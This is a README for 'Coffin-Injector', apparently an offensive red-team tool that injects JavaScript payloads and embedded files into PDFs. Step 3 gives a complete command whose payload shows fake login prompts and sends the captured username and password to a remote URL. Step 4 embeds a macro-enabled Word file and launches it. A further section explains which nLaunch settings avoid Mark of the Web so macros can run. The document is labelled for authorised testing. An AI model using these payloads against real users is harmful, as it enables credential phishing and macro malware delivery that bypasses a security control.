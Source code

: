 # Coffin-Injector

A simple Python utility for injecting JavaScript payloads and embedding arbitrary files into PDF documents for use in red team assessments, phishing simulations, or client-side testing.

## ✨ Features

- Injects custom JavaScript payloads into the `/OpenAction` of a PDF file
- Allows full control over the JavaScript logic (e.g., alerts, credential prompts, redirects)
- Embeds external files (e.g., `.doc`, `.xls`, `.zip`) into the PDF for export and execution
- Maintains original PDF structure and readability

## ⚙ Requirements

- Python 3.7+
- `PyPDF2`

## 🚀 Quick Start

### Step 1: Set up a Virtual Environment

```bash
python3 -m venv venv
source venv/bin/activate
```

### Step 2: Install Dependencies

```bash
pip install PyPDF2
```

### Step 3: Run Coffin-Injector with JavaScript Credential Prompt

This payload injects a script that prompts the user for a username and password using `app.response()`, masks the password in a follow-up alert, and then exfiltrates the credentials using `app.launchURL()` to a remote server. Ideal for phishing or demonstrating alert-based credential theft.

```bash
python3 coffin-injector.py -i Resume.pdf -o poc.pdf -p 'var u=app.response("This document requires login to view.\rPlease enter your username:");var p=app.response("Please enter your password:","Password","",true);var mask=p.length>2?p[0]+"*".repeat(p.length-2)+p[p.length-1]:p;app.alert("This PDF has interactive features and should be opened in Adobe Acrobat for full compatibility.\r\rLogin:\rUsername: "+u+"\rPassword: "+mask);app.launchURL("https://example.com/?u="+escape(u)+"&p="+escape(p));'
```

### Step 4: Run Coffin-Injector with Embedded File and Export Trigger

This payload embeds a macro-enabled Word document into the PDF and injects a JavaScript trigger to export and launch the file when the PDF is opened. The `nLaunch: 1` parameter silently saves and auto-launches the embedded file without applying Mark of the Web, allowing macros to run if the user enables them in Office.

```bash
python3 coffin-injector2.py -i Resume.pdf -o calc.pdf -p 'app.alert("This document includes an embedded application. Click OK to extract."); this.exportDataObject({ cName: "example.doc", nLaunch: 1 });' -e example.doc
```

### 📦 Understanding `nLaunch` Behaviour

These options control how embedded files behave when extracted using `this.exportDataObject()`:

- `nLaunch: 0` — Prompts the user to **save** the embedded file. This method avoids the Mark of the Web (MOTW), meaning macro-enabled Office files will open with the **yellow Enable Content** banner, allowing execution when the user enables macros. However, after saving, the user must manually locate and open the file.
- `nLaunch: 1` — Prompts the user to **save** the embedded file, and then **prompts to launch** the saved file immediately after saving. This avoids MOTW and offers a streamlined path for executing embedded macro payloads if the user enables macros.
- `nLaunch: 2` — Launches the file directly from within the PDF environment without prompting for a save location. Because it's executed from a temporary and browser-like context, the file **inherits MOTW**, causing Office to block macros with a **red security banner**.

> **Note**: Basic payloads using `app.alert()` and `app.response()` have been tested and are functional in Chromium-based and Firefox browsers (native PDF viewer). However, more advanced functionality such as `app.launchURL()` and `exportDataObject()` is only supported and tested in Adobe Acrobat.

For a full list of supported JavaScript functions in PDF files, see Adobe’s official documentation:
[https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/index.html](https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/index.html)

## 📁 Arguments

| Argument          | Description                                |
| ----------------- | ------------------------------------------ |
| `-i`, `--input`   | Path to the input PDF file                 |
| `-o`, `--output`  | Path for the output (patched) PDF          |
| `-p`, `--payload` | JavaScript payload to inject               |
| `-e`, `--embed`   | File to embed in the PDF (e.g., .doc file) |

## 📁 Default Payload

If no payload is supplied, the default behaviour is to inject:

```javascript
app.alert("PDF viewer allows XSS");
```

## 📝 License

This project is licensed under the [MIT License](LICENSE).

---

**Disclaimer:** For educational and authorised security testing purposes only.

